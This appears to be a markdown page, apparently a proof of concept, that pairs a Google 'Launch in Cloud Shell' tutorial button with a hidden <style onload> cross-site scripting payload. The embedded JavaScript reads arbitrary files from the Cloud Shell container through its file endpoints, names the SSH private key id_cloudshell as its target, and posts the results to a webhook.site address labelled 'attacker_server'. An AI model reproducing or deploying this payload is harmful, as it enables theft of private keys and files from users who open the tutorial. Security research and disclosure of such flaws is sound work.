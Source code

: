 

[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)][1]

[1]: https://console.cloud.google.com/?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta&cloudshell_tutorial=test2.md

----

<style onload="{   
    var file_results = []  
    // this scape the container and get the ssh id_cloudshell private key         
    setTimeout(function(){ 
        // send_files(file_results)    
    },5000)  
 
    // function to read any file given the path with file protocol per example 'file:///etc/hostname'
    function read_file(file_to_read){
        var container_url = 'https://' + location.host + '/files/?uri='
        var get_file_id_url = container_url + file_to_read
        console.log(get_file_id_url) 
        fetch(get_file_id_url) // convert response to json 
            .then(response => { return response.json() } )
            .then(json => {
                var container_download_url = 'https://' + location.host + '/files/download/?id='
                var download_url = container_download_url + json.id
                fetch(download_url) 
                    .then(response => { return response.text() } )
                    .then(text => { 
                        console.log(file_to_read + ' '+ text)
                        file_results.push(file_to_read + ' '+ text)  
                    })
            })  
    }
 
    function send_files(result){ 
         // need to set netcat to listen per example nc -lvvv 55555
         let attacker_server =  '  https://webhook.site/8714cbf4-0235-49e8-9ecb-6cc153712f85'
         fetch(attacker_server, {
                method: 'post',
                body: JSON.stringify(result)
         })
    }
 
}"> 
  
 
